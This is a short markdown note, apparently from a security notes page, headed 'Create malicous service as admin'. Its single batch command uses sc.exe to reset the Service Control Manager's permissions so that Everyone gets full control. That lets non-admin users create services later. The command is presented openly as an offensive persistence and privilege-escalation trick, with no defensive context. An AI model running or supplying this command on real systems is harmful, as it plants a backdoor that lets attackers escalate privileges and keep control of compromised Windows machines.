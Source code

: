 # Sec

### Create malicous service as admin. (enables ability to create it as user afterwards.)
```batch
sc.exe sdset scmanager D:(A;;KA;;;WD)
```
